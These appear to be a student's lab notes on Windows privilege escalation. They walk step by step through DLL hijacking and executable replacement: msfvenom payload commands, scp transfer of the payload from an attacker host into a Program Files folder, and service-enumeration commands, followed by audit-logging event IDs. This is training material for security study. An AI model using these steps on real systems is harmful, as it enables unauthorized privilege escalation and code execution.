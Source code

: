 **AutoElevate Executables**
Requested Execution Levels:
    asInvoker
    highestAvailable

**Scheduled Tasks & Services**
Items to evaluate include:
    Write Permissions
    Non-Standard Locations
    Unquoted Executable Paths
    Vulnerabilities in Executables
    Permissions to Run As SYSTEM

**DEMO: Finding vulnerable Scheduled Tasks**
schtasks /query /fo LIST /v
DEMO: DLL Hijacking
Identify Vulnerability
Take advantage of the default search order for DLLS
NAME_NOT_FOUND present in executable’s system calls
Validate permissions
Create and transfer Malicious DLL

step by step:
   1. check services! (weird locations, strange naming, lack of description etc.)
    2. double click service, check name, description, check path 
    3. go to the path of the executable in file explorer -> attempt to write something to the directory, (just create text file) if you can, this means you can put a DLL in there. **also try to rename executable**
    4. open sysinternals, run procmon to see what DLL's the .exe uses.
    5. procmon filter processname contains .dll & process name contains (.exe)
    & result is NAME NOT FOUND
    6. then run the executable -> take note of dll's found
    7. open linops -> create msfvenom command -> msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\Users\Student\Desktop\whoami.txt' -f dll > SSPICLI.dll
    8. go back to windows on powershell -> scp that file you just created from linops back to windows ->  scp student@10.50.36.204:/home/student/SSPICLI.dll "C:\Program Files (x86)\Putty\SSPICLI.DLL" 
    9. run the executable -> with this msfvenom command, this should drop a text file with the contents of your command on the desktop.
Demo renaming / writing (EXE replacement) if you can rename, use exe replacement.
1. rename the .exe file to something else.
2. go to linops and craft ya payload -> msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > C:\Users\Student\Desktop\whoami.txt' -f exe > putty.exe
3. scp this back to the target box. -> scp student@10.50.36.204:/home/student/putty.exe "C:\Program Files (x86)\Putty\putty.exe"
4. then run the executable.
DEMO: Finding Vulnerable Services
wmic service list full
sc query        
Other Vulnerabilities
unpatched kernel vulnerabilities
unpatched systems
unpatched applications
DEMO: Audit Logging
Show all audit category settings
    auditpol /get /category:*
    auditpol /get /category:* | findstr /i "success failure" (for what is being audited)
Important Microsoft Event IDs
4624/4625 - successful/ failed login
4720 - account created
4672 - administrative user logged on
7045 - service created
get sys internals tools
net use z: "\\http://live.sysinternals.com" /persistent:yes 
